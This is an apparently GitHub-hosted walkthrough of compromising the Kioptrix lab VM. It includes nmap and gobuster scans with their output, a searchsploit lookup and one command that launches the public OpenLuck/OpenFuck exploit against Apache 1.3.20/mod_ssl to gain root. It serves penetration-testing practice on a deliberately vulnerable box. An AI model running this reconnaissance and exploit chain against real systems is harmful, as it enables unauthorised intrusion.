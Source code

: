# NMAP Scan

<li>
  Always starting box challenges with nmap port scan to identify potential attack surface, where we can break into and in the end
  land with root/administrator access of the box.
</li>
</br>

```js
# Nmap 7.92 scan initiated Sat Jun  4 16:35:24 2022 as: nmap -sT --min-rate 10000 -oA nmap-alltcp 192.168.14.131
Nmap scan report for kioptrix.vuln (192.168.14.131)
Host is up (0.0061s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 00:0C:29:4B:15:28 (VMware)
```


<li>
  <p>Box is running 6 open ports and we also got information of possible services running, but that don't help us much.
  We need to perform one another scan were we will identify service, version and possible OS information of the box</p>
</li>



```js
nmap -A -p- 192.168.14.131 | tee aggresive-scan.txt                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 16:46 EDT
Nmap scan report for kioptrix.vuln (192.168.14.131)
Host is up (0.00062s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2022-06-05T03:52:50+00:00; +7h05m49s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-title: 400 Bad Request
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:4B:15:28 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_clock-skew: 7h05m48s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
```

<li>
  <p>Okey now we got something to work with, we have identified following places to look more into:</p>
</li>
 <ol>
  <li>Port 80 - HTTP - Apache httpd 1.3.20 ((Unix) - Possible OS (Red Hat Linux) </li>
  <li>Port 139 - SMB(Samba) - Need to find out what version running </li>
  <li>Port 443 - HTTP - Apache/1.3.20 + mod_ssl/2.8.4 OpenSSL/0.9.6b </li>
</ol> 
  
# Enumeration of HTTP and HTTPs
<li>
<p> Very first thing we can do is browse the site and see if there is anything that sticks out.
  When browsing both HTTP and HTTPs we land on the default "Test page" and the only thing that so far sticks out is already
  information that we found about version of Apache/1.3.20, this counts as Information disclosure which should not be visable to us.</p>
</li>  
  
  ![image](https://user-images.githubusercontent.com/85706972/172025520-38795b72-6be8-4154-b0b6-dae822f2a62f.png)

<li>
  <p>Also we can check source-code of the test page, sometimes there is hidden hints, but well there was nothing
  so I tried to check following files, but they don't exist. </p>
</li>

  ```txt
  robots.txt
  sitemap.txt
  ```
 
 <li>
  <p>Now let's start the Directory Brute Force with FFUF/gobuster, this will help us find possible hiddent directores</p>
  </li>
  
 ```js
 gobuster dir -u 192.168.14.131 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,txt | tee directory_search_scan_ext.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.14.131
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/06/04 17:30:28 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2890]
/test.php             (Status: 200) [Size: 27]  
/manual               (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/usage                (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/] 
/mrtg                 (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
 ```
 <li>
  <p>We got some directories to explore, but for some reason they tried to redirect me to localhost address and it ofcourse does not work.
  From here we have not found anything usefull, but remember that "Apache 1.3.20" and "mod_ssl/2.8.4" we found on NMAP scan, this actually reveals some vulnerability if we search it up with searchsploit </p>
 </li>

![image](https://user-images.githubusercontent.com/85706972/172026370-cbdf67ff-dadc-4f89-a456-00f9edd318ae.png)


# Exploit

<li>
  <p>It appears that for Apache 1.3.20 and mod_ssl/2.8.4 is vulnerability called OpenLuck/OpenFuck. Well the name is very interesting
  but let's clone the exploit from github and use the syntax to try to exploit it and gain the access on the machine.</p>
</li>

<a href="https://github.com/heltonWernik/OpenLuck">OpenLuck Exploit</a>

<li>
  <p>Following the instruction given from Github we are ready to lunch the exploit, don't forget to check the syntax and parameters that are possible to use in our case we need to use 0x6b and we are going to be running it against port 80, due to SSL issues</p>
</li>

```txt
./OpenFuck 0x6b 192.168.14.131 -c 40
```
 
![image](https://user-images.githubusercontent.com/85706972/172026673-9969e806-7f3e-4341-a730-50e23950fde2.png)

<li>
  <p>It worked perfect and congrats box is pwned as we have gained root access on the box</p>
</li>
